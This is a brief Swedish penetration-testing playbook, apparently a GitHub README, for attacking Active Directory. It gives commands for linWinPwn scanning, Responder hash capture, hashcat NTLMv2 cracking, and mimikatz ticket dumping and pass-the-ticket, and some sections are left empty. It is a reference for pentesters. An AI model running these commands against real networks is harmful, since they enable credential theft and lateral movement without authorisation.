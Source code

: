 # Gunnajs-Playbook
En svensk penetrationsvägvisare

## Tools bby

### linWinPwn - Active Directory Vulnerability Scanner
https://github.com/lefayjey/linWinPwn
### mimikatz
https://github.com/ParrotSec/mimikatz

# VEV

## linWinPwn 
```bash
sudo ./linWinPwn.sh -t <Domän_Kontrollant_IP> -u <AD_konto> -p <AD_lösen>
```

## Zero Logon

## Responder
### Veva igång responder
```bash
responder -I eth0 -v
```
### Cracka NTLMv2 hashar
```bash
hashcat64.exe -m 5600 hashes\hash.txt password_list.txt -o cracked\cracked.txt
```

## Mimikatz
### Dump tickets
```bash
mimikatz.exe
privilege::debug
sekurlsa::tickets /export
```
### Pass the ticket
```bash
mimikatz.exe
kerberos::ptt <ticket>
klist
```
## SMB VEV
## Nmap
